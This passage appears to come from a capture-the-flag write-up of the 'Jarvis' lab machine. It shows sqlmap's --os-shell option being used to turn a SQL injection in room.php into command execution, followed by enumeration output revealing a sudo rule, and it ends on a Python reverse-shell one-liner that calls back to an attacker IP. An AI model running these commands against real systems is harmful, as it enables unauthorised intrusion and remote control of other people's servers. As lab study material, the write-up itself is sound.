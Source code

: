 This does not give us a shell. Let us try something different: the `--os-shell`
option from `sqlmap`. We got a shell!

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  --os-shell
    os-shell> id
    command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

We start enumeration a bit and found that we can call a binary as the pepper
user with `sudo`.

    :::text
    os-shell> ls /home/
    command standard output: 'pepper'
    os-shell> ls /home/pepper/
    command standard output:
    ---
    Web
    user.txt
    ---
    os-shell> cat /home/pepper/user.txt
    command standard output: 'cat: /home/pepper/user.txt: Permission denied'
    os-shell> ls -al /home/pepper/
    command standard output:
    ---
    total 32
    drwxr-xr-x 4 pepper pepper 4096 Mar  5  2019 .
    drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
    lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
    -rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
    -rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
    drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
    -rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
    drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
    -r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
    ---
    os-shell> sudo -l
    command standard output:
    ---
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on jarvis:
        (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    ---

In oder to have a better shell, we use a python reverseshell:

    :::text
    export RHOST="10.10.15.31";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
